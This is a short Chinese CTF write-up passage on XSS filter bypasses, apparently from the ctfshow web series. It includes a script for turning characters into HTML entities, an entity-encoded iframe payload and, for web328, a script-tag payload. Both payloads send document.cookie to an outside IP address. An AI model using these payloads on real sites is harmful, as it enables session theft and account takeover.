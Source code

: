 还有一种巧妙姿势

String.fromCharCode()函数：ascii码转字符

```python
input_str = input("请输入字符串: ")  # 获取用户输入的字符串
ascii_list = []

# 遍历字符串，将每个字符转换为ASCII码，并添加到列表中
for char in input_str:
    ascii_code = ord(char)  # 使用ord()函数获取字符的ASCII码
    ascii_list.append(str(ascii_code))  # 将ASCII码转换为字符串并添加到列表

# 将列表中的ASCII码用逗号隔开，并打印结果
result = ','.join(ascii_list)
print("转换后的ASCII码:", result)
```

另一种是实体编码绕过

```
<iframe/srcdoc=&#60;&#105;&#102;&#114;&#97;&#109;&#101;&#47;&#111;&#110;&#108;&#111;&#97;&#100;&#61;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#108;&#111;&#99;&#97;&#116;&#105;&#111;&#110;&#46;&#104;&#114;&#101;&#102;&#61;&#39;&#104;&#116;&#116;&#112;&#58;&#47;&#47;&#52;&#55;&#46;&#57;&#54;&#46;&#52;&#49;&#46;&#49;&#48;&#51;&#47;&#116;&#101;&#115;&#116;&#46;&#112;&#104;&#112;&#63;&#99;&#111;&#111;&#107;&#105;&#101;&#61;&#39;&#43;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#59;&#62;&#60;&#47;&#105;&#102;&#114;&#97;&#109;&#101;&#62;>
```

实体编码转换脚本

```
def string_to_html_entities(input_str):
    html_entities = [f'&#{ord(char)};' for char in input_str]
    result = ''.join(html_entities)
    return result

input_str = input("请输入字符串: ")
html_entities_result = string_to_html_entities(input_str)
print("HTML实体编码:", html_entities_result)
```

![image-20231212204744530](./assets/image-20231212204744530.png)



## web328

注册的时候密码填如下。服务器就能收到admin的cookie

```
<script>window.open('http://47.96.41.103:9856?cookie='+document.cookie)</script>
```
